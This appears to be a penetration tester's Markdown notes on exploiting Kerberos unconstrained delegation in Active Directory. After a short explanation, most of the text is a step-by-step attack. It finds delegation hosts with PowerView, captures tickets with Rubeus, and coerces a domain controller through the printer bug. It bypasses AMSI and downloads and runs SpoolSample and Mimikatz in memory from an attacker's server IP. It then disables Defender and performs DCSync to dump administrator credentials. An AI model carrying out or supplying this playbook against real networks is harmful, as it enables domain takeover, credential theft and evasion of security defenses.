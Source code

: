 # Unconstrained Delegation

## What it is

Ref: (https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)

- Happens in the cases where there is a frontend service host (Host A) and a backend service host (Host B)
- When a user wants to access a service, a TGS specific to that service and that user is issued by the KDC
- But the user cant use the TGS for the frontend service to authenticate to the backend service
- To solve this problem, the frontend service is configured for unconstrained delegation which designates Host A as a host that can forward TGS and authenticate on behalf of the user to ANY SERVICE
- Typically, services may be misconfigured with this so worth checking!

## How to check if we can do this

1) Via Bloodhound (CoerceToTGT)
2) Via Powerview (Any non-DC host with the TRUSTED_FOR_DELEGATION in its UAC attribute)
```powershell
Get-DomainComputer -Unconstrained -Properties useraccountcontrol.dnshostname | format-list
```

## Exploiting it

1) After identifying the host, gain local admin access on that host
2) Using meterpreter or potatos or print spooler, elevate yourself to NT Authority/SYSTEM
3) open Administrator cmd prompt and execute Rubeus in monitoring mode
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```
4) Use any domain credential that you have to log in to a host and trigger the printer bug through the following:

a) Via SpoolSample.exe


b) Via Invoke-Spoolsample

- Grab the script from here (https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)

- Use the Custom Runspace to bypass AMSI, download the script in memory from your apache2 server, and then execute it with the following commands (within the runspace)

First Arg to -Command is the DC hostname, Second Arg is the hostname of where your Rubeus is being run on (the unconstrained delegation host)

```csharp
String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/spoolsample.txt') | IEX; Invoke-SpoolSample -Command 'dc03.infinity.com web05.infinity.com'"; 
```



5) Load the DC machine account ticket into your current domain user; and attempt to DCSync. Prior to loading mimikatz, you may need to find someway to disable defender. This can be done via a LOCAL high priv account (For example from LAPS) and disable the defender via another shell.

```csharp
// Watch the quotation marks! Problematic and hard to get this to work. Don't use this until I can figure this out!
String cmd2 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.178/mimikatz.txt') | IEX; Invoke-Mimikatz -Command "`"lsadump::dcsync /domain:infinity.com /user:infinity\\administrator`""";
```

Instead use the interactive C# code in the AppLocker.md to run Invoke-Mimikatz


*ALTERNATIVE WAY*

- Since you have a meterpreter session, you can make use of kiwi!

```bash
meterpreter > load kiwi
# dcsync followed by the account you want to target
meterpreter > dcsync administrator 

```